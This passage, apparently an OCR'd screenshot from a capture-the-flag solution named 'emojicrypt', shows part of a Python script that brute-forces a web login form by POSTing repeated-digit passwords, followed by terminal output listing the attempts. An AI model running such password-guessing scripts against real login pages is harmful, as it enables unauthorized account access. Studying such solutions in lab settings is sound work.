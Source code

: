 ```python
    print("Trying number combinations...")
    for i in range(100):
        passwd = str(i).zfill(2) * 16
        data = {
            'username': username,
            'password': passwd
        }
        
        print(f"Trying: {passwd[:5]}...")
        response = requests.post(url, headers=headers, data=data, allow_redirects=False)
        
        if response.status_code != 302 or 'incorrect' not in response.headers.get('Location', ''):
            print('Success! Password:', passwd)
            print('Response:', response.text)
            return
        
    print("Password not found")

if __name__ == "__main__":
    print("Starting password scan...")
    scanpw()
```

```text
➜  emojicrypt python3 script.py
Starting password scan...
Trying pattern: 00000...
Trying pattern: 11111...
Trying pattern: 12345...
Trying number combinations...
Trying: 00000...
Trying: 01010...
Trying: 02020...
Trying: 03030...
Trying: 04040...
Trying: 05050...
Trying: 06060...
Trying: 07070...
Trying: 08080...
Trying: 09090...
Trying: 10101...
Trying: 11111...
Trying: 12121...
Trying: 13131...
Trying: 14141...
Trying: 15151...
Trying: 16161...
Trying: 17171...
Trying: 18181...
Trying: 19191...
Trying: 20202...
Trying: 21212...
Trying: 22222...
Trying: 23232...
Trying: 24242...
Trying: 25252...
Trying: 26262...
Trying: 27272...
Trying: 28282...
Trying: 29292...
Trying: 30303...
Trying: 31313...
Trying: 32323...
Trying: 33333...
```